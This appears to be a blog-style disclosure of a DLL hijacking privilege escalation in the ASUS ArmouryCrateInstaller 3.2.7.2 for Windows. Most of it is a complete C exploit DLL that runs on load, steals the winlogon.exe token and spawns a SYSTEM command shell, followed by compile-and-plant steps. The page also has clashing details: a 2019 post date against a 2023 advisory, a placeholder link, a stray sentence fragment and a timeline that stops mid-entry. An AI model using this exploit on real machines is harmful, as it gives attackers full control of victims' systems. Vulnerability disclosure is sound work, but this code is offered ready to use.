 ```yaml
---
title: Local Privilege Escalation in Aura Sync / Aura Creator - ArmouryCrate Windows Installer
author: cotes
date: 2019-08-08 14:10:00 +0800
categories: [Windows]
tags: [writing]
render_with_liquid: false
---
```


## 0x01: Details

- Title: Local Privilege Escalation in Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2 For Windows Installer
- CVE ID: None
- Vendor ID : None
- Advisory Published: 5 Aug 2023
- Advisory URL : [https://www.asus.com](AddHere)

## 0x02: Test Environment

ArmouryCrateInstaller Version: 3.2.7.2 

OS : Windows 10 20H2 (OS Build: 19045.3508)

## 0x03: Vulnerability details

Vulnerability that allows a local attacker to gain SYSTEM privileges by exploiting administrator privileges, and that enables the server thread to perform actions on behalf of the client, but within the limits of the client's security context.

## 0x04: Technical description

Many DLLs are loaded from the directory where the ArmouryCrateInstaller is located. Among these Dlls, `TextShaping.dll` is loaded, and this DLL load is done with Administrator privileges. So, by placing `profapi.dll, PROPSYS.dll, edputil.dll, urlmon.dll, SspiCli.dll` in the directory where the ArmouryCrateInstaller Version, you can gain SYSTEM privileges by abusing Administrator privileges.

Over the horizon comes

## 0x05: Complete Exploit

```c
/*
 - ZeroDay Research  -
@component: Asus Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2

@filename: dllpoc.cpp

@vulnerability: 0Day - Arbitrary Code Execution (DLL Hijacking) To Local Privilege Escalation In Asus Aura Sync - ArmouryCrateInstaller 3.2.7.2

@author: RashidKhan Pathan (iHexCoder)


*/

#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>
#include <iostream>


#pragma comment (lib,"advapi32.lib")

void exploit() {
    printf("[+] Vulnerability: Local Privilege Escalation Via DLL Hijacking \n");
    printf("[+] Author: RashidKhan Pathan (iHexCoder) \n");
    printf("[+] Tested On: Windows 10 20H2 (OS Build: 19045.3508) \n");
    printf("[+] Affected Products: Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2 \n");
    printf("[+] Affected Components: profapi.dll, PROPSYS.dll, edputil.dll, urlmon.dll, SspiCli.dll \n");

    DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
    EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    PROCESSENTRY32 p32;
    p32.dwSize = sizeof(PROCESSENTRY32);

    int processwinloginPid;

    if (Process32First(hSnapshot, &p32)) {
        do {
            if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
                printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ParentProcessID);
                processwinloginPid = p32.th32ProcessID;
                break;
            }
        } while (Process32Next(hSnapshot, &p32));

        CloseHandle(hSnapshot);

        LUID luid;
        HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

        if (currentProc) {
            HANDLE TokenHandle = NULL;
            BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
            if (hProcessToken) {
                BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

                if (!checkToken) {
                    printf("[+] Current Process token Already Include SeDebugPrivilege \n");
                }
                else
                {
                    TOKEN_PRIVILEGES tokenPrivs;

                    tokenPrivs.PrivilegeCount = 1;
                    tokenPrivs.Privileges[0].Luid = luid;
                    tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

                    BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);
                    
                    if (adjustToken != 0)
                    {
                        printf("[+] Added SeDebugPrivilege to the current process token: %lx \n", adjustToken);
                    }
                }
                CloseHandle(TokenHandle);
            }
        }
        CloseHandle(currentProc);

        HANDLE hProcess = NULL;
        HANDLE TokenHandle = NULL;
        HANDLE NewToken = NULL;
        BOOL OpenToken;
        BOOL Impersonate;
        BOOL Duplicate;

        hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processwinloginPid);

        if (!hProcess)
        {
            printf("[-] Faild To Obtain a Handle To The Target PID \n");
        }
        printf("[+] Obtained Handle To The Target PID %lx\n", hProcess);

        OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

        if (!OpenToken)
        {
            printf("[-] Faild To Obtain Handle to The TOKEN %d\n", GetLastError());
        }
        printf("[+] Obtained A Handle To The Target Token %lx \n", OpenToken);

        Impersonate = ImpersonateLoggedOnUser(TokenHandle);
        if (!Impersonate)
        {
            printf("[-] Faild To Impersonate The TOKEN User \n");
        }
        printf("[+] Impersonted The Token's User %lx \n", Impersonate);

        Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);
        if (!Duplicate)
        {
            
            printf("[-] Faild To Dulplicate The Target Token\n");
        }
        printf("[+] Duplicated The Target Token %lx \n", Duplicate);

        BOOL NewProcess;
        STARTUPINFO lpStartupInfo = { 0 };
        PROCESS_INFORMATION lpProcessInformation = { 0 };

        lpStartupInfo.cb = sizeof(lpStartupInfo);

        NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

        if (!NewProcess)
        {
            printf("[-] Faild To Create A SYSTEM Process \n");
        }
        printf("[+] Create A SYSTEM Process %lx \n", NewProcess);
        printf("[+] Getting System Shell \n");
        printf("-------------------------------------------------------\n");

        CloseHandle(NewToken);
        CloseHandle(hProcess);
        CloseHandle(TokenHandle);
    }
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        exploit();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

1. Use Visual Studio 2019.
2. Compile the project in the DLL directory in x64 Release mode.
3. Rename the compiled dll to `profapi.dll` and place it in the same directory as ArmouryCrateInstaller.exe.
4. Run `ArmouryCrateInstaller`
5. We Will Get A System Shell With `NT Authority`

## 0x06: Affected Products

This vulnerability affects the following product:

- Asus Aura Sync/Creator - ArmouryCrateInstaller Version < 3.2.7.2

## 0x07: Credit information

RashidKhan Pathan (@itRashid)

## 0x08: TimeLine
- 4  Aug 2023 : Vulnerability Found
- 27 Aug 2023 : First time contacted via (security@asus.com) about ticket is not creating issue and vulnerability is critical
- 29 Aug 2023 : recevied a system generated mail from them, they told me to try again using ASUS Security Advisory Page
- 30 Aug 2023 :

## 0x09: Reference

- [https://www.asus.com](https://www.asus.com)

